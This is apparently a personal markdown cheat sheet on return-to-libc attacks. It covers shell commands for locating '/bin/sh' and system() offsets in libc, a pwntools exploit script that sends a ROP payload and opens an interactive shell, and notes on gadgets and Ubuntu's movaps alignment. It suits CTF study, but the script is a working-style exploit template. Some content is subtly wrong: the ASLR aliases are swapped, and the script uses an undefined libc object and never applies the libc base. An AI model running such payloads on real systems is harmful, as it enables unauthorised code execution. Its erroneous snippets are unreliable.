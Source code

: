 ![alt text](https://miro.medium.com/max/480/1*Y217A9lJL0IznoeQ3tLFVg.jpeg)

A **"return-to-libc" attack** is a [computer security](https://en.wikipedia.org/wiki/Computer_security "Computer security") attack usually starting with a [buffer overflow](https://en.wikipedia.org/wiki/Buffer_overflow "Buffer overflow") in which a subroutine [return address](https://en.wikipedia.org/wiki/Return_statement "Return statement") on a [call stack](https://en.wikipedia.org/wiki/Call_stack "Call stack") is replaced by an address of a subroutine that is already present in the [process](https://en.wikipedia.org/wiki/Process_(computing) "Process (computing)") executable memory, bypassing the [no-execute bit](https://en.wikipedia.org/wiki/NX_bit "NX bit") feature (if present) and ridding the attacker of the need to [inject](https://en.wikipedia.org/wiki/Code_injection "Code injection") their own code. The first example of this attack in the wild was contributed by [Alexander Peslyak](https://en.wikipedia.org/wiki/Solar_Designer "Solar Designer") on the [Bugtraq](https://en.wikipedia.org/wiki/Bugtraq "Bugtraq") mailing list in 1997.

---



![](https://imgs.search.brave.com/NRHpPSjASQpFcQPzSDNuukh85MMmop77YkJAExCn02Q/rs:fit:1200:720:1/g:ce/aHR0cHM6Ly9pLnl0/aW1nLmNvbS92aS9G/dlFZR0FNMVg5VS9t/YXhyZXNkZWZhdWx0/LmpwZw)

---

## finding 'parts' for ret2libc 

```bash
# this will return the offset of the string within libc
strings -a -t x libc.so.6 | grep "/bin/sh"
strings -a -t x libc.so.6 | grep "/bin/bash"

# find offset of system() in libc 
readelf -s libc.so.6 | grep "system" # or any function you wanna call

# other useful functions primarely for memory leaks
readelf -s libc.so.6 | grep "puts"
readelf -s libc.so.6 | grep "printf"
```


```python
# finding /bin/sh with pwntools
from pwn import *

libc=ELF('libc.so.6')
libc_binsh=libc.search("/bin/sh\x00").next()
```

##### NOTE:
```bash
# MAKE SURE ASLR IS TURNED OFF WHEN TRYING TO FIND  LIBC BASE (AND OTHER STUFF)
alias aslr_on="echo 0 > /proc/sys/kernel/randomize_va_space"  
alias aslr_off="echo 2 > /proc/sys/kernel/randomize_va_space"
```

---

## crafting an example exploit

(**note**)
```
use offsets gathered and subtract from the base address of libc to call the function
```

```python
# PSUEDO EXPLOIT
# https://stacklikemind.io/ret2libc-aslr
from pwn import *

"""
:OFFSETS
	1b3e1a /bin/sh
	libc base 0x00007fdecd5c2000
	14b30 __libc_system
"""

binary = context.binary = ELF("./binary", checksec=True)
p = process()


pop_rdi = p64(0x400784)
sh = p64(next(libc.search(b"/bin/sh")))
sys = p64(libc.symbols["system"])
padd = b"A"*80

"""
: stack alignment for movaps instruction ubuntu
: simple pointer to a ret function just to keep the stackaligned by 16 bytes
stack_alignment = p64(0x00400784)
"""


payload = padd + pop_rdi + sh + sys
p.sendline(payload)
p.interactive()
p.close()
```

```asm
pop rdi   ; put data from the top of the stack into rdi and increment rsp
ret       ; Pops the return address off the stack and into the instruction pointer 
```

- https://github.com/david942j/one_gadget  The best tool for finding one gadget arbitrary code execution in libc


---

# NOTES:

##### LIBC
> Plenty of programs use functions from the standard C library. To provide a standard runtime environment and to save space, those functions are packaged in a separate file (`libc.so`). During the application startup, this file is loaded into the program’s memory and shared library functions can now be called. You can see where libc is loaded by running the command `vmmap` in GDB-Peda).

##### Calling Conventions
> In `amd64` architecture, the calling convention (order and place from where args are read) for integers is the following:
> -   `RDI`, `RSI`, `RDX`, `RCX`, `R8`, `R9`

##### Gadgets:
- an attacker gains control of the [call stack](https://en.wikipedia.org/wiki/Call_stack "Call stack") to hijack program [control flow](https://en.wikipedia.org/wiki/Control_flow "Control flow") and then executes carefully chosen [machine instruction](https://en.wikipedia.org/wiki/Machine_instruction "Machine instruction") sequences that are already present in the machine's memory, called "gadgets"
- calling different instructions from memory


> Ideally, a gadget contains no extra instructions between the ones we need and the `ret`. Otherwise we might have to take the extra instructions into account and adjust our payload accordingly. Sometimes, there are no perfect gadgets available.

##### movaps bullshit:
- This is unique to **Ubuntu**. It has its own version of libc, in which system has additional `movaps` instructions for moving data to the stack. These instructions require the stack to be aligned by `16 bytes`. When the stack is not aligned, the `movaps` will trigger an error.
